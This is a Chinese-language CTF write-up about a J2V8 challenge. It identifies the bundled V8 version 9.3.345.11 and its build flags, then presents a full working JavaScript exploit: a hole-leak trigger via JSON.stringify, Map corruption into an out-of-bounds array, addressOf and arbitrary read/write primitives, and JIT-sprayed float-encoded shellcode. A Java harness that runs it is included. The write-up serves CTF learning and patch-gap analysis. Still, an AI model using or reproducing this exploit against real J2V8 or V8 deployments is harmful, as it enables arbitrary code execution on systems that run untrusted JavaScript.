


# 题目分析

首先分析 `App.java`，其主要逻辑是接收一段 JS 代码，然后通过 V8 引擎解释执行。但正常的 Java 项目不会内嵌 V8 引擎，所以接着分析下发附件中的 jar 包，将其导入为库后可以发现这个库叫做 J2V8，通过 GitHub 搜索可以找到该[项目的链接](https://github.com/eclipsesource/J2V8/tree/master)


接着查看库中的方法，可以发现与 V8 相关。了解 V8 的师傅会知道，V8 的漏洞很依赖版本，所以我们需要确定这个 jar 包中调用的 V8 版本。可以在库中找到如下获取版本的方法：



写一段对应的 Java 代码，就可以获取到 V8 的版本：
```java
import com.eclipsesource.v8.*;  
  
public class Main {  
    public static void main(String[] args) throws Exception {  
        V8 v8 = V8.createV8Runtime();  
        System.out.println(V8.getV8Version());  
    }  
}
```

可以看到 V8 的版本是 9.3.345.11：



那么现在问题就转化为对 9.3.345.11 版本 V8 的漏洞利用。同时需要注意，编译参数同样会影响 V8 的利用方式，因此需要检索官方仓库来确定编译参数：[链接](https://github.com/eclipsesource/J2V8/blob/00dddaa31a80782abbe93c4a01f325db3c4975d6/v8/linux-x64/args.gn)
```text
target_os = "linux"
target_cpu = "x64"
is_component_build = false
is_debug = false
use_custom_libcxx = false
v8_monolithic = true
v8_use_external_startup_data = false
symbol_level = 0
v8_enable_i18n_support= false
v8_enable_pointer_compression = false
```

值得注意的是，没有开启指针压缩，且 V8 9.x 版本尚未引入 V8 sandbox，因此堆上会存在大量 raw pointer，利用门槛较低，只需找到一个 V8 的 nday 即可完成利用。

如果需要调试这个 V8 漏洞，可以在原本的编译参数基础上添加以下调试选项，调试完毕后再迁移到题目环境进行利用：
```text
target_os = "linux"
target_cpu = "x64"
is_component_build = false
is_debug = false
use_custom_libcxx = false
v8_monolithic = true
v8_use_external_startup_data = false
symbol_level = 2
v8_enable_i18n_support= false
v8_enable_pointer_compression = false
v8_enable_backtrace = true
v8_enable_disassembler = true
v8_enable_object_print = true
v8_enable_verify_heap = true
```

# 漏洞利用

V8 版本为 9.3.345.11，因此选择经典的 hole leak attack。该版本中 `map.delete(leak_hole)` 仍可正常执行，只需找到一个 leak hole 的触发方式，即可构造出任意读写原语。拥有任意读写原语后，可以通过 JIT spray 或劫持 WASM 的 jump table 等方式劫持控制流，实现代码执行。

以下是利用的 JS 脚本：
```js
var buf = new ArrayBuffer(8);
var f32 = new Float32Array(buf);
var f64 = new Float64Array(buf);
var u8 = new Uint8Array(buf);
var u16 = new Uint16Array(buf);
var u32 = new Uint32Array(buf);
var u64 = new BigUint64Array(buf);

function lh_u32_to_f64(l,h){
    u32[0] = l;
    u32[1] = h;
    return f64[0];
}
function f64_to_u32l(val){
    f64[0] = val;
    return u32[0];
}
function f64_to_u32h(val){
    f64[0] = val;
    return u32[1];
}
function f64_to_u64(val){
    f64[0] = val;
    return u64[0];
}
function u64_to_f64(val){
    u64[0] = val;
    return f64[0];
}

function u64_to_u32_lo(val){
    u64[0] = val;
    return u32[0];
}

function u64_to_u32_hi(val) {
    u64[0] = val;
    return u32[1];
}

function trigger() {
    let a = [], b = [];
    let s = '"'.repeat(0x800000);
    a[20000] = s;
    for (let i = 0; i < 10; i++) a[i] = s;
    for (let i = 0; i < 10; i++) b[i] = a;

    try {
        JSON.stringify(b);
    } catch (hole) {
        return hole;
    }
    throw new Error('could not trigger');
}

let leak_hole = trigger();

let map = new Map();
map.set(1, 1);
map.set(leak_hole, 1);
map.delete(leak_hole);
map.delete(leak_hole);
map.delete(1);


map.set(20, -1);
var oob_arr = [1.1];
var tmp_arr = [2.2];
var rw_arr  = [3.3];
var obj_arr = [0xeada, rw_arr];
map.set(0x41414145, 0);
var cor_length = oob_arr.length;


function addressOf(obj){
    obj_arr[1] = obj;
    return f64_to_u64(oob_arr[0x16]);
}

function AAR(addr){
    oob_arr[0x11] = u64_to_f64(addr-0x10n);
    return f64_to_u64(rw_arr[0]);
}

function AAW(addr,val){
    oob_arr[0x11] = u64_to_f64(addr-0x10n);
    rw_arr[0] = u64_to_f64(val);
}

const shellcode = () => {return [
    1.9553825422107533e-246,
    1.9560612558242147e-246,
    1.9995714719542577e-246,
    1.9533767332674093e-246,
    2.6348604765229606e-284
];}


for(let i = 0; i< 80000; i++){
    shellcode();shellcode();
}

var shellcode_addr = addressOf(shellcode);
var code_addr = AAR(shellcode_addr+0x30n);
var rop_addr = code_addr + 0xcdn - 0x5fn;

AAW(shellcode_addr+0x30n, rop_addr);
shellcode();
```

本地测试用的 Java 代码：
```java
import com.eclipsesource.v8.*;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Main {
    public static void main(String[] args) throws Exception {
        V8 v8 = V8.createV8Runtime();
        String js = new String(Files.readAllBytes(Paths.get("poc.js")));
        v8.executeScript(js);
    }
}
```

# 总结

本质上是一道由 V8 patch gap 造成的问题。由于 J2V8 项目没有及时更新 V8 版本，使得 V8 的 nday 漏洞变成了该项目的 0day。
